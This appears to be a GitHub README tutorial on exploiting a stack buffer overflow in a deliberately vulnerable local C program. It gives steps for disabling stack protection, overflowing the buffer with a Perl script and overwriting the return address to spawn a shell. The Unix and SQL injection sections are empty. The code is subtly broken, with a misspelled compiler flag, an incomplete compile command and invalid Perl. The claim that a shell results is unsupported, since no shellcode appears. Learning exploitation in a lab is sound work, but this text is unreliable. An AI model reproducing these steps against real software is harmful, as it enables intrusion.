 ## Better be Safe than Sorry
#### A continuing updating repo of computer security examples and exploits.

1. [General Unix Vulnerabilities](#Unix_Vulnerabilities)

2. [SQL Injections](#SQL_Injections)

3. [Buffer Overflows](#Buffer_Overflows)

<a name="Unix_Vulnerabilities"></a>
#### General Unix Vulnerabilites

<a name="SQL_Injections"></a>
#### SQL Injections

<a name="Buffer_Overflows"></a>
#### Buffer Overflows

Buffer overflow happens when when a program writing data to a buffer, exceeds the bounds of the buffer, causing the excess data to overflow into adjacent memory. 

From the example vulnerable code [here](https://github.com/amandazhuyilan/Better-be-Safe-than-Sorry/blob/master/buffer_overflow.c), the buffer overflow can happen at the ```strcat``` line, where the boundary of the concatenated string appended into the buffer is not checked, causing an overflowed buffer.

Steps to exploit this vulnerability and invoking a shell is as follows:

1. Complile the buffer_overflow.c with the following command, turning off the stack protection system and enabling debugging:

```gcc buffer_overflow.c -g -fno_stack_protector -o buffer_overflow```

2. Figure out how many pops it takes for us to get to the end of the buffer, usually the number is a little bigger than the buffer size (500 for this example). In this example we are going to use a perl script ```exploit.pl``` to help us generate the needed 500ish characters:

```
#!/usr/bin/perl

printf "A" x500;
```
```chmod +x exploit.pl``` to make sure it has the necessary permissions, then feed it into the ```buffer_overflow``` executable that we just compiled in gdb:
 
 ```$gdb(buffer_overflow)```
 ```$(gdb)run `exploit.pl` ```
 
Modify the number of "A"s in the perl script so that the buffer is overflowed successfully it would show up as a segmentation fault at 0x41414141. 

3. Add a ```stack.c``` that looks like this:
```
#include <stdio.h>

unsigned long get_sp()
{
	__asm__("mov %esp, %eax");
}

main()
{
	printf("SP is: %lx\n\n", get_sp());
}
```
Compile it with ```gcc -m32 -o stack```. This ```stack``` execuatble will print the current stack pointer that we will use later. Note that the stack pointer address doesn't change frequently, but it might be different if you run ```stack``` many commands away.

4. Modify ```exploit.pl``` to look like the following (also avaliable [here](https://github.com/amandazhuyilan/Better-be-Safe-than-Sorry/blob/master/buffer_overflow-exploit.pl)):
```
#!/usr/bin/perl

$RETURN_ADDRESS=0x'the sp address resulted from stack';

$RETURN_ADDRESS=$RETURN_ADDRESS - $ARGV[0];

$address = pack("l",$RETURN_ADDRESS);  //Perl has its own built in function to modify the address to little endian

printf "A" x517$address;   //517 is what I got. Put in your own number
```

Make sure you ```chmod +x exploit.pl``` after you finished modifiying it.

5. You're almost all good to go! Type in ```buffer_overflow `exploit.pl` ```. It'll be highly likely that you will see ```segmentation fault```, this is where ```$RETURN_ADDRESS=$RETURN_ADDRESS - $ARGV[0];``` in the ```exploit.pl``` will help modify the memory address a bit. Try ```buffer_overflow `exploit.pl -1000` ```, ```buffer_overflow `exploit.pl 1000` ``` etc. (Mine worked at ```buffer_overflow `exploit.pl -2000` ```).

If all the steps are performed in order, and right, a shell should be exploited :D





